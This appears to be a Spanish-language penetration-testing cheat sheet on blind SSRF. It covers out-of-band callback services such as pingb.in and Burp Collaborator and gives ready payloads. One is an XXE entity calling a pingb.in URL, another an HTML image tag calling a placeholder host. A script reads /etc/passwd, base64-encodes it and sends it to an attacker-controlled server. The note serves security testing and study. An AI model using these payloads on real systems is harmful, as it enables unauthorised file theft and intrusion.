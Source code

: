 >[!note]
>Ejemplo de uso de pingb.in [https://infosecwriteups.com/a-simple-dns-oob-exfil-solution-or-pingb-in-life-hack-45e6aa44fc49](https://infosecwriteups.com/a-simple-dns-oob-exfil-solution-or-pingb-in-life-hack-45e6aa44fc49)

**y en ocaciones de estar en una red local podemos usar netcat o python http-server.**

### BURP COLLABORATOR

Podemos intentar modificar el header referer para probar esta vulnerabilidad:

Usando burp collaborator:

![[Pasted image 20220930161939.png]]

![[Pasted image 20220930162010.png]]

### BLIND SSRF PAYLOADS

Dependera de que tipo de archivo el sistema permite cargar:

FILE UPLOAD - SVG

- [https://github.com/allanlw/svg-cheatsheet](https://github.com/allanlw/svg-cheatsheet)

XML

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "http://pingb.in/p/1b714045017992c0db9294a442a5">]>
<foo>&xxe;</foo>
```

HTML

```html
<html>
<body>
	<a>Hello World!</a>
	<img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
</body>
</html>
```

HTML + XMLHttpRequest

```html
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```
